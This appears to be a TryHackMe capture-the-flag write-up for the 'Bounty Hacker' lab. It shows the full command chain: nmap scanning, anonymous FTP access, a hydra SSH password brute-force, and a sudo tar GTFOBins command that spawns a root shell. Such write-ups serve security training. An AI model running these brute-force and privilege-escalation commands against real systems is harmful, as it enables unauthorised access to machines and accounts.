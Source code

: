 ```yaml
---
layout: article
title: Bounty Hacker
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://miro.medium.com/v2/resize:fit:828/format:webp/0*pSY-gfbX6aNhVPeQ.jpeg
permalink: /writeups/bountyhacker
tags:
- TryHackMe
- Write-Up
---
```


## Introduction
> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

## Reconnaissance
Deploy the machine e start with recon!
Starting with a port scan we have the following situation:

```nmap 
Nmap scan report for 10.10.28.89
Host is up (0.082s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Hint suggest us to look for ftp service.

```shell 
sudo nmap -sV -sC -A 10.10.28.89 -p 21
```

We can connect to ftp service with *anonymous* user.

```shell 
ftp <IP>
```

We have found two txt files.
In one filw we find the username and in the other file a password list.

## Getting a shell
With username and a password list we can use hydra to obtain a shell exploiting ssh service.

```shell 
hydra -l lin -P ./locks.txt ssh://10.10.28.89:22
```

We found the password and now we can connect with ssh.

```shell 
ssh lin@<IP>
```

## Privilege Escalation
I launched `sudo -l` and shell returns me this error: 

```
User lin may run the following commands on bountyhacker: 
	(root) /bin/tar
```

So I searched on Google how to obtain a shell exploiting `/bin/tar`.

I found the following guide: [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

I launched the following command:
```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and I obtained a root shell.

